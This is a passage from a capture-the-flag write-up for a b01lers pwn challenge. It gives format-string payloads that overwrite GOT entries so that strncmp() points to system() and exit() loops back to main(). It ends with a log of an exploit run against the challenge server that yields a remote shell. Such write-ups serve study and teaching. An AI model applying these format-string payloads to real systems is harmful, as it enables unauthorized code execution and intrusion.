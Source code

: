 The actual process to overwrite this is the same as the previous writes, but we do it twice, writing 2 bytes at a time: First to `system()` GOT address, and then to `system()` GOT address plus 2`

First overwrite:
```
0\xf0\x04\x08%32011da%6$hn
```

Second overwrite:
```
2\xf0\x04\x08%63441da%6$hn
```

### 5. `exit()` -> `main()`
Now that `strncmp()` points to `system()`, we need to cause `main()` to be executed, which will in turn cause `strncmp()` to be triggered when the program asks for the crew member name.

We do this the exact same way as before:
```
\x1c\xf0\x04\x08%34476da%6$hn
```

### 6. `system("/bin/sh")`
Now, we can trigger the vulnerability and get a shell!
```
./exploit.py remote
[+] Opening connection to pwn.ctf.b01lers.com on port 1006: Done
[*] leak: 0xf7ecd000
[*] full system addr: 0xf7d34d10
[*] Switching to interactive mode


$ id
uid=1000(kobayashi) gid=1000(kobayashi) groups=1000(kobayashi)
$  
```


[1]: Proceed to the ship with shields down, ready to beam their crew members aboard (quick rescue)
[2]: Proceed to the ship with shields up, prepared for any enemy ships (longer rescue)
[3]: Charge photon lasers and fire on the ship because you think it is an ambush (no trust)